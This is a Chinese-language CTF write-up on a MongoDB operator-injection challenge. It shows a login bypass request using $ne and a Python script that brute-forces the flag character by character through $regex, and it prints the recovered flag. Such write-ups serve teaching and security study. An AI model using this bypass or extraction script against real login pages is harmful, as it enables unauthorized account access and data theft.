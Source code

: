 ```yaml
---
title: '[MMA CTF 2nd 2016] Get the admin password 100'
author: bananaapple
tags:
  - web
  - sql injection
  - MMA CTF 2nd 2016
categories:
  - write-ups
date: 2016-09-06
layout: post
---
```


# 漏洞解析

感謝隊友 Ann Tsai 試出來漏洞

我這裡負責剪尾刀把 script 寫完

大概試了一下可以發現漏洞是 sql injection 

只是由於 database 是 nosql 稍微有點不一樣

相關內容可以參考以下的這篇文章

https://www.idontplaydarts.com/2010/07/mongodb-is-vulnerable-to-sql-injection-in-php-at-least/

POST http://gap.chal.ctf.westerns.tokyo/login.php

user=admin&password[$ne]=true&submit=true

就能夠成功登入

`$ne` 是 `not equal` operator

所以說要是資料庫裡的 password not equal 輸入的 password

就能夠成功登入

接下來的 payload 就會利用控制 operator 的方式爆出密碼

# payload

mongoDB 可以使用的 operator 可以參考以下連結

https://docs.mongodb.com/manual/reference/operator/query/

在這裡我使用的 `regex` operator

想法是 `regex` 的 pattern 使用 `^TWCTF{` 

代表 `TMCTF{` 開頭的字串

然後一個一個字元加 把 flag 爆出來

注意一下跳脫字元即可

payload 如下

```python3
#!/usr/bin/env python3
import requests
import string
import re
url = 'http://gap.chal.ctf.westerns.tokyo/login.php'
flag = '^TWCTF{'
print(string.printable)
while True:
    for c in string.printable:
        qq = flag+re.escape(c)
        print(qq)
        payload = {'user': 'admin', 'password[$regex]': qq,'submit': True}
        r = requests.post(url,payload)
        if 'TWCTF{...}' in r.text:
            flag+=c
            print(flag)
            break
```

# flag

```
TWCTF{wasshoi!summer_festival!}
```